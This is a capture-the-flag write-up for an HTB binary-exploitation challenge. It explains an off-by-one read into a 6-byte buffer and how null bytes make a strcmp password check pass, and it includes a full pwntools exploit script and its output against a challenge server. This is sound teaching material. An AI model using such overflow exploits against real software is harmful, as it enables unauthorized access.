 ```yaml
---
title: "Writing on the Wall 🧱 - Stack overflow, pwn"
tags: [HTB, binary exploitation, stack overflow, pwn]
---
```


# Writing on the Wall 🧱

![Category](https://img.shields.io/badge/category-Pwn-orange)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Platform](https://img.shields.io/badge/platform-Linux-blue)
![HTB](https://img.shields.io/badge/HTb-Challenge-green)

> As you approach a password-protected door, a sense of uncertainty envelops you—no clues, no hints.  

> Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall.  

> Could this be the elusive password, waiting to unveil the door's secrets?

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

We start with `checksec` to analyze binary protections:

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'./glibc/'
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

Despite strong protections like PIE, stack canary, NX, and SHSTK/IBT, a logic vulnerability opens the door for a simple bypass.

## Program Behavior 📟

Upon execution, the binary:

- Loads a fixed password (`0x2073736170743377`)
- Reads 7 bytes into a 6-byte buffer
- Compares the input with the password using `strcmp`
- If the match succeeds, `open_door()` is called

However, if not, an alarm is triggered.

## Reverse Engineering 🔍

In Ghidra or GDB, the function is roughly:

```c
char local_1e[6];
uint64_t local_18 = 0x2073736170743377; // "w3tpass "

read(0, local_1e, 7);
if (strcmp(local_1e, (char *)&local_18) == 0) {
    open_door();
} else {
    error("Troops are coming...");
}
```

Crucially, the `read()` call reads **7 bytes into a 6-byte buffer**, allowing an **overflow** into `local_18`.

## Exploitation Strategy 💣

The goal is to make `strcmp(local_1e, local_18) == 0`.

This can be achieved by:

- Sending a payload that **starts with a null byte** (`\x00`)
- Making sure the overflowed `local_18` also **starts with a null byte** (by writing `\x00` in 7th byte)

Since `strcmp()` compares null-terminated strings, both become `""` (empty), so the comparison passes.

### Valid Payload Example:

```bash
└──╼ $echo -ne '\x00AAAAA\x00' | ./writing_on_the_wall

〰③ ╤ ℙ Å ⅀ ₷

The writing on the wall seems unreadable, can you figure it out?

>> You managed to open the door! Here is the password for the next one: HTB{f4k3_fl4g_4_t35t1ng}
```

Payload explained:
- First `\x00` makes `local_1e` look empty
- Last `\x00` overwrites the `'w'` of `local_18`, turning it into a null byte

## Full Exploit Script 🧨

```python
#!/usr/bin/env python3
from pwn import *
import argparse

context.binary = './writing_on_the_wall'
elf = context.binary

def get_process(args):
    if args.host and args.port:
        return remote(args.host, int(args.port))
    return process(elf.path)

def build_payload():
    # 6 chars for buffer + 1 to overwrite next byte (likely LSB of saved value)
    return b'\x00\x13\x37\x13\x37\x42\x00'  # includes the trailing space (0x20)

def trigger_exploit(p, payload):
    p.sendafter(b'>>', payload)

def main():
    parser = argparse.ArgumentParser(description="Exploit script for 'writing_on_the_wall'")
    parser.add_argument('--host', help='Remote host')
    parser.add_argument('--port', help='Remote port')
    args = parser.parse_args()

    p = get_process(args)
    payload = build_payload()
    trigger_exploit(p, payload)

    p.interactive()

if __name__ == "__main__":
    main()
```

```bash
python3 exploit.py
python3 exploit.py --host 1.2.3.4 --port 1337
```

## Exploitation Result ✅

```
└──╼ $python3 exploit.py --host 83.136.251.68 --port 57446
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to 83.136.251.68 on port 57446: Done
[*] Switching to interactive mode
 You managed to open the door! Here is the password for the next one: HTB{4n0th3r_br1ck_0n_th3_w4ll}
```

We bypassed the password check using a buffer overflow that abuses how `strcmp()` handles null-terminated strings.

## Conclusion 🧾

This was a clever little logic-based exploitation challenge. Key takeaways:

- Buffer overflows aren't always about control flow hijacking
- Null bytes can be powerful when dealing with string comparisons
- Exploitation can be simple if you carefully analyze memory layout and behavior

🔙 [Back to Challenge Writeups](../../)
